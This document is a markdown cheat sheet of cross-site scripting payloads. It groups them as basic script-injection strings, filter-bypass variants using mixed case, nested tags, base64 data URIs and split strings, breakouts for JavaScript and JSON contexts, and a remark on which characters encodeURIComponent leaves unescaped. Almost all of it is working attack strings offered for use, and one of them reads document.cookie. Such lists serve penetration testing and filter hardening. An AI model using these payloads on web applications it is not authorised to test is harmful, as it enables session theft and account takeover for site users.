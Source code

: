 # Basic XSS Payloads

```
<script>alert(1)</script>
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<math><mi//xlink:href="data:x,<script>alert(1)</script>">
contentvisibilityautostatechange='alert(1)'
via invalid tag -- 22 foo="bar<h1>">test</22>
<22 foo="bar<img src=x onerror="alert()">test</22>
```

# Bypassing Filters
```
<scr<script>ipt>alert(1)</scr</script>ipt>
<IMG SRC=JaVaScRiPt:alert(1)>
<svg><script xlink:href=data:,alert(1)></script></svg>
<svg><a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click</a></svg>
<details open ontoggle=confirm(1)>
onToggLe='let%20x=%60javascri%60%3Blet%20y=%60pt:aler%60%3Blet%20z=%60t()%60%3Blet%20a=x+y+z%3Blocation=a'> ==>  onToggLe='let x=`javascri`;let y=`pt:aler`;let z=`t()`;let a=x y z;location=a'>

```
# DOM XSS Payloads (Assume input is reflected into JS)
```
';alert(1);// 
";alert(1);// 
</script><script>alert(1)</script>
'+document.domain+' 
"><svg onload=confirm(document.cookie)>
```
# JSON/JS Injection Payloads (Context: inside a JSON/JS response)
```
"};alert(1);//
');alert(1);//
",";alert(1);//
```
if there is encodeurlcomponent() function:

it escapes all the chars but not 
```A–Z a–z 0–9 - _ . ! ~ * ' ( )```


